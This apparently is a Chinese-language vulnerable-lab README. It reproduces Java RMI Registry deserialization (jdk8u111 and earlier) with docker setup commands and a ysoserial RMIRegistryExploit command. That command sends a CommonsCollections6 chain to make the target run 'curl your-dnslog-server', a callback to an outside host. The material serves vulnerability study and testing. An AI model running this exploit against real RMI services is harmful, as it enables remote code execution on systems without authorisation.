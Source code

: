 # Java RMI Registry 反序列化漏洞(<=jdk8u111)

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能(虽然大多数情况不允许远程bind)，在bind过程中，伪造Registry接收到的序列化数据(实现了Remote接口或动态代理了实现了Remote接口的对象)，使Registry在对数据进行反序列化时触发相应的利用链(环境用的是commons-collections:3.2.1).

## 漏洞环境

执行如下命令编译及启动RMI Registry和服务器：

```
docker compose build
docker compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过ysoserial的exploit包中的RMIRegistryExploit进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```

![image-20200206133552945](assets/README/image-20200206133552945.png)

Registry会返回报错，这个没关系正常，命令会正常执行。
